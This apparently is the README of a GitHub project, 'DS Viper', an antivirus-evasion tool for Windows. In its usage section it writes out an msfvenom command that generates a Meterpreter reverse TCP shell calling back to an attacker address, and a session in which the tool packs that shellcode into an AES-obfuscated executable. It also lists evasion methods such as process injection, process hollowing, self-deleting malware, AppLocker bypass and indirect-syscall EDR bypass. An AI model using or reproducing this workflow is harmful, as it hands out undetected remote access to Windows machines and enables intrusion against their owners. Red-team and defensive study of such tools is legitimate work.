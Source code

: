 # 🐍 **About DS Viper**

**DS Viper** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.

Whether you're simulating real-world attacks or conducting comprehensive security audits, **DS Viper** serves as an essential tool for testing and improving system defenses.

> **We are constantly working on DS Viper** to enhance its capabilities, improve evasion techniques, and introduce customizable features such as the ability to add your own payloads or keywords.

---

<p align="center">
  <img src="https://github.com/dagowda/DSViper/blob/c24161c9c055bd94be03624cf8d1c8d9849df59c/img/screenshot1.jpg" alt="image_alt">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**
```bash
git clone https://github.com/dagowda/DSViper.git
cd DSViper
pip install -r requirements.txt
sudo apt-get update
sudo apt-get install -y mingw-w64
sudo apt install mono-complete
chmod +x MASM-compatible/uasm
sudo cp MASM-compatible/uasm /usr/bin/uasm
```

### **Option 2: Scripted Installation (Recommended)**
If you prefer an automated setup, use the provided script:

```bash
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make the `DSViper` binary executable and run it:

```bash
➜  DSViper git:(main) ✗ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201798 bytes
➜  DSViper git:(main) ✗ python3 DSViper.py

            
                                                                                                                                                                     
░▒▓███████▓▒░ ░▒▓███████▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░░▒▓████████▓▒░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░             ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░              ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░        ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓██████▓▒░ ░▒▓███████▓▒░                                                                          
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░                                                                         
░▒▓███████▓▒░░▒▓███████▓▒░          ░▒▓██▓▒░  ░▒▓█▓▒░▒▓█▓▒░      ░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░                                                                         
                                                                                                                                                                     
................................................                                                                                                                     
                      AntiVirus Bypass Tool (v.0.2.1)                                                                                                                
---------------------------------------------------------                                                                                                            
Created by Dhanush Gowda(dagowda) and Sumanth Vanki                                                                                                                  
---------------------------------------------------------                                                                                                            
................................................                                                                                                                     
                                                                                                                                                                     
                                                                                                                                                                     
You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>2                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected self-injection(AES)                                                                                                                                         
[*]Payload successfully created as DSViper_AES.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png) 
  
